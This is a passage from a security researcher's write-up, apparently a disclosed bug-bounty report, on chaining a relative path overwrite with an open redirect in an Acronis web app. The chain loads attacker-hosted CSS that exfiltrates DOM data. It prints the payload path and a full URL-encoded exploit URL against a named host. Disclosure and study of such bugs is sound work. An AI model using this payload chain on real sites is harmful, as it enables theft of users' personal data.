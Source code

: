 <div class="aside">
  <pre class="prettyprint prettyprinted" style="color:#c7254e">
    /../../../api/2/idp/authorize/?client_id={CLIENT-ID}&
    redirect_uri=%2Fhci%2Fcallback&response_type=code&scope=openid
    &state=http%3A%2F%2Flocalhost%2Fcss%2Fcore.css&nonce=bhgjuvrrvpwauibleqhvfqat
  </pre>
</div>

You will notice that the first thing we do in the previous payload is **Overwrite the Relative Path** to the root directory of the app. Then, we specify the endpoint vulnerable to the Open redirect and in this vulnerable endpoint redirect the user to `http://localhost/core/css.css` where is in my case the CSS file stored used to exfiltrate the user personal information.

As a result, the browser will load my CSS and we can exfiltrate personal data about the user.

The **final URL** to load the external CSS will looks like this:

<div class="aside">
  <pre class="prettyprint prettyprinted" style="color:#c7254e">
  https://mc-beta-cloud.acronis.com/mc/?color_sheme=%2F..%2F..%2F..%2F
  api%2F2%2Fidp%2Fauthorize%2F%3Fclient_id%3Dfb2bf44e-ac14-444a-b2a9-e5e81fe73b80
  %26redirect_uri%3D%252Fhci%252Fcallback%26response_type%3D
  code%26scope%3Dopenid%26state%3Dhttp%253A%252F%252Flocalhost%252Fcss%252Fcore.css
  %26nonce%3Dbhgjuvrrvpwauibleqhvfqat
</pre>
</div>
Make sure you correctly URL encode it.

![Logo image](https://mr-medi.github.io/assets/img/css.png)

Excellent, we successfully injected the CSS file from our remote server leading to exfiltrate all the information found in the DOM via CSS properties.In the next video you can see the full PoC as well:

<div class="embed-responsive embed-responsive-16by9">
<iframe width="560" height="315" src="https://www.youtube.com/embed/srPv75HS6Nk" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</div>

<h2 class="introfont" style="font-size: 2em!important;">Final Thoughts</h2>

I have not found any disclosed bug about this kind of issue, so I found quite interesting to disclose it.
It's not a new technique but definitely it's worthy to explore and very cool to chain!

**I will share and update this post with more examples of how to approach this attack as soon as disclose more reports of this kind.**

The cool thing is that each web application have different behaviours about how they handle it in the javascript, so the impact and type of bug may depend about how do they use it and the pourpose of the affected parameter.

I'm sure this technique can be chained with **Relative Path Overwrite Attacks** in websites without the
**DOCTYPE** declaration. In the next link you can read an awesome writeup by the magnific [**James Kettle**][james_kettle]
[https://portswigger.net/research/detecting-and-exploiting-path-relative-stylesheet-import-prssi-vulnerabilities][writeup]


[acronis]: https://hackerone.com/acronis